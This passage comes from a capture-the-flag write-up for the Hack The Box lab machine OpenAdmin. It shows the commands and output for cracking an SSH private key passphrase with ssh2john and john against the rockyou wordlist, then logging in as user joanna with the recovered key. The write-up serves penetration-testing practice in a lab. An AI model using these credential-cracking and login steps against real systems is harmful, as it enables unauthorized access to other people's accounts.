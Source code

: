 Great, so according to index.php, the username is also "jimmy"  

>jimmy:Revealed  

Once we are logged in, we see joanna's rsa private key in plain text, as per the main.php code.  

Let's crack it with john and login to joanna over SSH :  

## User Shell - joanna  

First, copy the contents from ---BEGIN to ---END lines into a new file called id_rsa (ensure there is 1 empty line at the end of the file, save & close)  

```bash
ssh2john id_rsa > is_rsa.hash

┌──(kali㉿kali)-[~/Documents/HTB/OpenAdmin]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)     
1g 0:00:00:01 DONE (2022-05-12 02:43) 0.6024g/s 5767Kp/s 5767Kc/s 5767KC/s bloodofyouth..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```  

>id_rsa passphrase:  bloodninjas  

```bash
┌──(kali㉿kali)-[~/Documents/HTB/OpenAdmin]
└─$ ssh -i id_rsa joanna@10.10.10.171 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id": bad permissions
joanna@10.10.10.171's password:

# Change the permission to lower perms.:
┌──(kali㉿kali)-[~/Documents/HTB/OpenAdmin]
└─$ chmod 600 id_rsa     

┌──(kali㉿kali)-[~/Documents/HTB/OpenAdmin]
└─$ ssh joanna@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': bloodninjas
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```  
